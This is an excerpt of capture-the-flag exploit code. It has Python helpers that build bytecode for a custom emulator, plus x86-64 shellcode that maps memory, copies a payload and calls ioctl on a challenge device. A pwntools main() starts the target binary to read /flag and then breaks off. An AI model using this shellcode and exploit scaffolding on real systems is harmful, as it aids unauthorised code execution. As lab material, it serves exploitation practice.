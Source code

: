 ```python

def write_from_memory(fd, offset, count):
    buffer = b''
    if type(fd) == int:
        buffer += write_register(Regs.a, value=fd)
    buffer += write_register(Regs.b, value=offset)
    buffer += write_register(Regs.c, value=count)
    buffer += syscall(Syscalls.WRITE_MEM, out_reg=Regs.a)
    return buffer

def store_string(addr, string):
    assert(type(string) == bytes)
    buffer = b''
    for i, b in enumerate(string):
        buffer += write_register(Regs.a, b)
        buffer += write_register(Regs.b, addr + i)
        buffer += store_in_memory(addr=Regs.b, register=Regs.a)
    return buffer

SHELLCODE = '''
user_shellcode:
mov rdi, 0
mov rsi, 0x1000
mov rdx, 3
mov r10, 1
mov r8, 3
mov r9, 0
mov rax, 9
syscall

lea rbx, [rip + yancode_start]
mov rcx, 0

copy_loop:
mov dl, byte ptr[rbx + rcx]
mov byte ptr[rax + rcx], dl
inc rcx
cmp rcx, yancode_end - yancode_start
je done
jmp copy_loop

done:
mov rdi, 3
mov rsi, 1337
mov rax, 16
syscall

yancode_start:
{}

yancode_end:
nop
'''

def main():    
    debug = False
    # if debug:
    #     p = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)
    # else:

    p = process(BINARY)
    
    flag_path = b'/flag\x00'
```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html